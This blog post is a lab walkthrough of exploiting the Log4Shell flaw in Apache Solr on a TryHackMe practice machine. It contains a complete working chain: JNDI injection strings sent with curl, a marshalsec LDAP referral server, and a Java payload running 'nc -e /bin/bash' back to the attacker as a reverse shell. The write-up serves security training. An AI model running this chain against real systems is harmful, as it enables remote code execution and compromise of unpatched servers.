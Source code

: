```yaml
---
layout: post
title:  "LOG4J-Solr-THM-Walkthrough"
date:   2022-01-04 17:03:35 +0530
category: walkthroughs
---
```


The room for practicing Log4j can be found here: https://tryhackme.com/room/solar

{% highlight ruby %}Phase 1: Reconnaissance{% endhighlight %}

We explore the web interface at http://machine_ip[:]8983; we explore and look around for the log files, to see which path or URL endpoint triggers the logging. 

We find that {% highlight ruby %}“solr/admin/cores/”{% endhighlight %} is where a user can control the data entry point. 
 
You may already know the general payload to abuse this log4j vulnerability.

The format of the usual syntax that takes advantage of this looks like so: 
                ${jndi: ldap://ATTACKERCONTROLLEDHOST} 

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

Notice the ldap:// schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For now, know that the target will in fact make a connection to an external location. This is indicated by the 
ATTACKERCONTROLLEDHOST placeholder in the above syntax. You, acting as the attacker in this scenario, can host a simple listener to view this connection. 
 
We already discovered that we could supply parameter to the /solr/admin/cores URL to insert our JNDI Syntax. 

Other locations you might supply this JNDI syntax: 
•	Input boxes, user and password login forms, data entry points within applications 
•	HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers 
•	Any place for user-supplied data 

{% highlight ruby %}Phase 2: Testing{% endhighlight %} 
To prepare your environment for testing the vulnerability and receiving a connection 

1.	We view our own IP address information: 
a.	“ip addr show” OR “ip -br -c a” 
  
2.	We prepare a netcat listener on port 9999  
a.	“nc -nlvp 9999” 
  
3.	Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility. 

{% highlight ruby %}“curl ‘http://machine_ip[:]8983/solr/admin/cores?foo$\{jndi:ldap://Your.IP.Address:9999\}’{% endhighlight %}  
  
Note, due to the use of the $ dollar-sign character in your syntax, you must ensure you wrap the URL within single-quotes, so bash (your command-line shell) does not interpret it as a variable. 
Additionally, you must escape out the { } curly braces with a single backslash character, so those are not misrepresented in the curl command arguments. 

4.	Verify you have received a connection by seeing the following message in your netcat listener: 
a.	“Connection received from MACHINE_IP” 
  
{% highlight ruby %}Phase 3: Preparation and Payload Creation{% endhighlight %} 
At this point, you have verified the target is in fact vulnerable by seeing this connection caught in your netcat listener. However, it made an LDAP request... so all your netcat listener may have seen was non-printable characters (strange looking bytes). We can now build upon this foundation to respond with a real LDAP Handler. We will utilize an open-source and public utility to stage an "LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so: 
{% highlight ruby %}
1.	${jndi:ldap://attackerserver:1389/Resource} -> reaches out to our LDAP Referral Server 
2.	LDAP Referral Server springboards the request to a secondary http://attackerserver/resource 
3.	The victim retrieves and executes the code present in http://attackerserver/resource 
{% endhighlight %} 

This means we will need an HTTP server, which we could simply host with any of the following options (serving on port 8000): 
{% highlight ruby %}
	• 	python3 -m http.server 8000 
{% endhighlight %}  

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec 

Ultimately, this needs to run Java. Reviewing the README for this utility, it suggests using Java 8. (You may or may not have success using a different version, but to "play by the rules," we will match the same version of Java used on the target virtual machine) 

You can find a mirror of different Java versions to run on Linux at this location. http://mirrors.rootpei.com/jdk/ and we install Java 8 locally. 
Now we install Marshalsec utility from github. 
{% highlight ruby %}
1. Clone the repository in any file system location of your choice (I would suggest /tmp or /opt): 
a. git clone https://github.com/mbechler/marshalsec 

2.	Download and change directories into this new folder (cd marshalsec) We must build marshalsec with the Java builder maven. If you do not yet have maven on your system, you can install it through your package manager: 'sudo apt install maven'

3.	Now, we install the maven packages:  'mvn clean package -DskipTests' 

4.	With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server (which we will prepare in just a moment). The syntax to start the LDAP server is as follows: 
a. java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit” 
{% endhighlight %}

Adjust the IP address for your attacking machine as needed. Note that we supplied the HTTP port listening on 8000. 

You will see an output on your window similar to below: 
{% highlight ruby %}"Listening on 0.0.0.0:1389"{% endhighlight %}
 
Now that our LDAP server is ready and waiting, we can open a second terminal window to prepare our final payload and secondary HTTP server. 

Ultimately, the log4j vulnerability will execute arbitrary code that you craft within the Java programming language. 

Create and move into a new directory where you might host this payload. First, create your payload in a text editor of your choice (mousepad, nano, vim, Sublime Text, VS Code etc), with the specific name Exploit.java: 

{% highlight ruby %}
public class Exploit {static {try { java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999"); } catch (Exception e) {e.printStackTrace(); 
}}} 
{% endhighlight %}

Compile your payload with {% highlight ruby %}javac Exploit.java -source 8 -target 8{% endhighlight %} and verify it succeeded by running the {% highlight ruby %}'ls'{% endhighlight %} command and finding a newly created {% highlight ruby %}Exploit.class{% endhighlight %} file 
  
With your payload created and compiled, you can now host it by spinning up a temporary HTTP server.  {% highlight ruby %}Python3 -m http.server 8000{% endhighlight %}
  
{% highlight ruby %}Phase 4: Exploitation{% endhighlight %}

Your payload is created and compiled, it is hosted with an HTTP server in one terminal, your LDAP referral server is up and waiting in another terminal -- next prepare a netcat listener to catch your reverse shell in yet another new terminal window: nc -nlvp 9999 
  
Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit: 
{% highlight ruby %}
curl 
'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:138 9/Exploit\}' 
{% endhighlight %}

You have now received initial access and command-and-control on an Apache Solr instance. This is just one example of many, many vulnerable applications affected by this log4j vulnerability.  
  
At this point, a threat actor can realistically do whatever they would like with the victim -- whether it be privilege escalation, exfiltration, install persistence, perform lateral movement or any other postexploitation -- potentially dropping cryptocurrency miners, remote access trojans, beacons and implants or even deploying ransomware.  
All it took was a single string of text, and a little bit of set up with freely available tooling. 

This was precisely why the Internet has been on fire during the weekend of December 9th, 2021.  

